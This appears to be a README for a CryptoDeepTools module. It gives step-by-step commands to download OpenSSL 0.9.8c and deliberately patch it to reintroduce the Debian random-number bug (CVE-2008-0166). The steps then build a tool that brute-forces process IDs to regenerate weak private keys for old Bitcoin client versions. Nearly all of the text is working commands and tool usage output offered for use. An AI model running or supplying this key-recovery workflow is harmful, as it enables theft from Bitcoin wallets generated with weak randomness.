 gcc -std=c99 -o cryptodeepbtcgenUDF cryptodeepbtcUDF.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln
 -lssl -lcrypto
# Vulnerable to Debian OpenSSL bug (CVE-2008-0166)

---

* Tutorial: https://youtu.be/zHkXups2I8k
* Tutorial: https://cryptodeep.ru/vulnerable-openssl

---

# Commands:

    git clone https://github.com/demining/CryptoDeepTools.git

    cd CryptoDeepTools/05VulnerableOpenSSL/

    apt-get update

    sudo apt-get install g++ -y

    sudo apt-get install libgmp3-dev libmpfr-dev -y

    wget https://mirror.math.princeton.edu/pub/openssl/source/old/0.9.x/openssl-0.9.8c.tar.gz

    tar xfz openssl-0.9.8c.tar.gz

    mv openssl-0.9.8c openssl-0.9.8c-vuln

    cd openssl-0.9.8c-vuln

    ls -lh

    patch -p1 <../make-OpenSSL-0-9-8c-vulnerable-again.diff

    ./Configure linux-x86_64 shared no-ssl2 no-ssl3 no-comp no-asm

    make depend all

    cd /

    ls

    cd content/CryptoDeepTools/05VulnerableOpenSSL/

    ls -lh


# Compilation:

    gcc -o cryptodeepbtcgen cryptodeepbtc.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln -lssl -lcrypto

    ls -lh


RUN:

    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h


Version 0.1.2 (le64)

Usage:

-p n-m		Brute Force between PID n-m [default 0-32768]

-n <num>	Create num number of keys per PID [default: 10]

-l		Show all supported BTC versions

-v <prog>	Which BTC version to run (Try -l to find number) [0-43]

-x		Skip Self-Check



    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l



#0   - 0.3.24

#1   - 0.8.6-d

#2   - 0.8.6-qt

#3   - 0.9.1-d

#4   - 0.9.4-d

#5   - unknownA

#6   - unknownB

#7   - unknownC

e.t.c
e.t.c


    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -n 32 -v 0 >> result.txt




